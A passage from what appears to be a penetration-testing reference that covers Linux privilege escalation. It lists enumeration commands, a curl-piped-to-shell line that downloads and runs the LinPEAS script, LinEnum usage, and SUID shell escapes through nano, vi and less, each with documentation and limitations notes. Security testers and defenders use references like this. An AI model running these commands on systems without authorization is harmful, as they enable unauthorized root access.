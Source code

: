 
**Documentation**: Exploits Windows service misconfigurations for privilege escalation.
**Limitations**: Requires write access to service directories; may be detected by EDR solutions.

## Linux Privilege Escalation

### Linux Enumeration and Exploitation
```bash
# System Enumeration
id                                                       # Current user and groups
sudo -l                                                  # Sudo permissions
cat /etc/passwd | cut -d: -f1                          # List users
ps aux | grep root                                      # Root processes
find / -perm -4000 2>/dev/null                         # SUID binaries

# Automated Linux Enumeration
# LinPEAS (Linux Privilege Escalation Awesome Script)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t        # Comprehensive enumeration

# Linux Exploit Suggester
linux-exploit-suggester-2.pl                           # Kernel exploit suggestions
```

**Documentation**: Comprehensive Linux privilege escalation enumeration and exploitation.
**Limitations**: May require compilation of exploits; kernel exploits can cause system instability.

### SUID Binary Exploitation
```bash
# Common SUID Exploitation Techniques
# GTFOBins reference: https://gtfobins.github.io/

# Example SUID exploits
find / -user root -perm -4000 -print 2>/dev/null        # Find SUID binaries

# Nano SUID exploitation
nano /etc/passwd                                         # Edit passwd file if nano has SUID

# Vi/Vim SUID exploitation
vi -c ':!/bin/sh' /dev/null                             # Escape to shell from vi

# Less SUID exploitation  
less /etc/passwd
!/bin/sh                                                # Execute shell from less
```

**Documentation**: Exploits SUID binaries for privilege escalation using legitimate system tools.
**Limitations**: Depends on specific SUID configurations; modern systems have fewer vulnerable SUID binaries.

